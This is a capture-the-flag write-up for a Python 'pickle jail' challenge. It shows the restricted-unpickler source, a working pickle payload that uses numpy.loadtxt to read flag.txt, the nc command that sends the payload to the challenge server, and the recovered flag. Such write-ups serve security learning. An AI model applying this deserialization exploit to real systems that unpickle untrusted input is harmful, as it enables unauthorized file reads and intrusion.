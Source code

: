 # pickled magic

## Challenge

```py
#!/usr/local/bin/python3
# modified from https://github.com/splitline/My-CTF-Challenges/blob/master/hitcon-quals/2022/misc/Picklection/release/share/chal.py
import pickle, numpy, io
from pickle import _getattribute
class RestrictedUnpickler(pickle.Unpickler): 
     def find_class(self, module, name): 
        if module == 'numpy' and '__' not in name:
            return _getattribute(numpy, name)[0]
        raise pickle.UnpicklingError('bad')

data = bytes.fromhex(input("(hex)> "))
print(RestrictedUnpickler(io.BytesIO(data)).load())
```

## Solution

Code:
```py
import pickle
import numpy

class FlagReader:
    def __reduce__(self):
        return (numpy.loadtxt, ('flag.txt', 'str'))

print(pickle.dumps(FlagReader()).hex())
```

Usage:
```
❯ (python ./payload.py; cat) |  nc challs1.pyjail.club 5200
(hex)> jail{idk_about_mag1c_but_this_is_definitely_pickled}
```

## Flag

`jail{idk_about_mag1c_but_this_is_definitely_pickled}`
